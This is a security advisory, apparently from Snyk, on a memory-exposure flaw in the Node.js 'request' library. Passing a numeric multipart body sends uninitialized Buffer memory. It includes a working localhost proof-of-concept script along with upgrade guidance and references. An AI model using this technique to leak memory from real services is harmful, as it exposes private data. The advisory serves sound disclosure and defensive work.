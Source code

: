 ## Overview
A potential remote memory exposure vulnerability exists in `request`. If a `request` uses a multipart attachment and the _body type_ option is `number` with value X, then X bytes of uninitialized memory will be sent in the body of the request.

Note that while the impact of this vulnerability is high (memory exposure), exploiting it is likely difficult, as the attacker needs to somehow control the body type of the request. One potential exploit scenario is when a request is composed based on JSON input, including the body type, allowing a malicious JSON to trigger the memory leak.

### Details
Constructing a `Buffer` class with integer `N` creates a `Buffer`
of length `N` with non zero-ed out memory.
**Example:**
```
var x = new Buffer(100); // uninitialized Buffer of length 100
// vs
var x = new Buffer('100'); // initialized Buffer with value of '100'
```

Initializing a multipart body in such manner will cause uninitialized memory to be sent in the body of the request.

#### Proof of concept
```javascript
var http = require('http')
var request = require('request')

http.createServer(function (req, res) {
  var data = ''
  req.setEncoding('utf8')
  req.on('data', function (chunk) {
    console.log('data')
    data += chunk
  })
  req.on('end', function () {
    // this will print uninitialized memory from the client
    console.log('Client sent:\n', data)
  })
  res.end()
}).listen(8000)

request({
  method: 'POST',
  uri: 'http://localhost:8000',
  multipart: [{ body: 1000 }]
},
function (err, res, body) {
  if (err) return console.error('upload failed:', err)
  console.log('sent')
})
```

## Remediation
Upgrade `request` to version 2.68.0 or higher.

If a direct dependency update is not possible, use [`snyk wizard`](https://snyk.io/documentation/#wizard) to patch this vulnerability.

## References
- https://github.com/request/request/pull/2018
- https://github.com/ChALkeR/notes/blob/master/Lets-fix-Buffer-API.md#previous-materials
- https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md
